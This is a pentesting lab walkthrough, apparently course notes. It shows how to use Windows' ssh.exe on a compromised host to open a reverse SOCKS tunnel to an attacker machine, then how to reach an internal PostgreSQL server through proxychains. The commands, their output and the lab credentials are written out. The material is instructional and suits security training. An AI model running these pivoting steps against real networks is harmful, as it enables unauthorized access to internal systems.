

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# ssh.exe

The OpenSSH client has been bundled with Windows by default since [version 1803](https://devblogs.microsoft.com/commandline/windows10v1803/#openssh-based-client-and-server) (April 2018 Update), and has been available as a _Feature-on-Demand_ since [1709](https://devblogs.microsoft.com/powershell/using-the-openssh-beta-in-windows-10-fall-creators-update-and-windows-server-1709/) (Windows 10 Fall Creators Update).

ssh.exe works exactly like ssh on Linux including command structure and flags.

## Example

To demonstrate the similarity, this example will show constructing a SSH remote dynamic port forward as seen [here](../ssh-dynamic-remote-port-forwarding.md) for Linux.

Consider a network that is similar to the Linux examples with one minor difference. Instead of the perimeter router being a Linux machine running Confluence web server (`CONFLUENCE01`), the machine on the perimeter (behind a firewall) is a Windows machine called `MULTISERVER01`. Additionally, instead of using a remote exploit to compromise the machine, it is assumed the attacker was able to gain credentialed access via a compromised account (`rdp_admin:P@ssw0rd!`). The credentials were compromised in [this example](../../simple-port-forwarding-scenario.md#cracking-the-hash). The network layout for this example is shown in this diagram:

<figure><figcaption><p>Network layout for example</p></figcaption></figure>

### Setting Up the Tunnel

First the attacker ensures the SSH server is started on their machine:

```bash
sudo systemctl start ssh.service
```

At this point the attacker logs in to `MULTISERVER03` using the RDP client of their choice. From here `cmd.exe` (or PowerShell) is opened.

#### Validating SSH is Installed

On Windows, the `where` command can be used to check if `ssh` is on the box:

```sh
where ssh
```

On the example machine this reveals that SSH is installed:

```sh
C:\Users\rdp_admin>where ssh
C:\Windows\System32\OpenSSH\ssh.exe
```

#### Checking SSH Version

Assuming SSH is installed, its version can be checked with the -V flag:

```sh
ssh.exe -V
```

On the example machine the attacker find v8.1:

```sh
C:\Users\rdp_admin>ssh.exe -V
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
```

Given that the version is greater than 7.6 this OpenSSH client can be used for dynamic forwarding.

#### Creating the Reverse Forward

As [with Linux](../ssh-dynamic-remote-port-forwarding.md#command-structure), the `-R` flag is used to set up a dynamic remote port forward:

```
ssh -N -R 127.0.0.1:9998 remote-ssh@192.168.45.159
```

* Can be `ssh` or `ssh.exe`
* Attacker's machine is running its SSH server at `192.168.45.159`
* `-N` prevents a shell from being opened, i.e. just makes a tunnel
* `127.0.0.1:9998` specifies which address and port the attacker's machine should listen for proxy connections on

Similar to what was seen on Linux, this command does not return anything. It asks for the password and then simply leaves the shell session tied up until the connection is closed:

```sh
C:\Users\rdp_admin>ssh.exe -N -R 127.0.0.1:9998 remote-ssh@192.168.45.159
The authenticity of host '192.168.45.159 (192.168.45.159)' can't be established.
ECDSA key fingerprint is SHA256:twy9QO8IpFFoKforRFBiVTNk/qjqxyp8qnFTnBUcqZs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.45.159' (ECDSA) to the list of known hosts.
remote-ssh@192.168.45.159's password:

```

If desired, the attacker can return to their machine and ensure the listener has been created with the `ss -ntpl` command:

```bash
kali@kali:~$ ss -ntpl
State        Recv-Q       Send-Q              Local Address:Port               Peer Address:Port       Process       
LISTEN       0            128                       0.0.0.0:22                      0.0.0.0:*                        
LISTEN       0            128                     127.0.0.1:9998                    0.0.0.0:*                        
LISTEN       0            128                          [::]:22                         [::]:*
```

### Using the Tunnel

Using the tunnel is exactly the same as demonstrated [with Linux](../ssh-dynamic-remote-port-forwarding.md#using-the-tunnel).

#### Configuring Proxychains

First Proxychains must be configured with the SSH remote connection's address and port in the config file at `/etc/proxychains4.conf`:


```
...
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```


#### Using Proxychains

Once configured, proxychains can be prepended to other commands to force traffic through the SOCKS proxy. For example, to log in to the PostgreSQL database on `PGDATABASE01` (`10.4.235.215`) at port `5432` the attacker would use the following command:

```
proxychains psql -h 10.4.235.215 -U postgres
```

* The credentials (`postgres:D@t4basePassw0rd!`) were compromised in [this example](../../simple-port-forwarding-scenario.md#enumerating-the-pivot-machine)

Once logged in the attacker can interact with the database as if it were on their own network:

```bash
kali@kali:~$ proxychains psql -h 10.4.235.215 -U postgres
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.235.215:5432  ...  OK
Password for user postgres: 
[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.235.215:5432  ...  OK
psql (16.1 (Debian 16.1-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

postgres=# \l
postgres=#
```
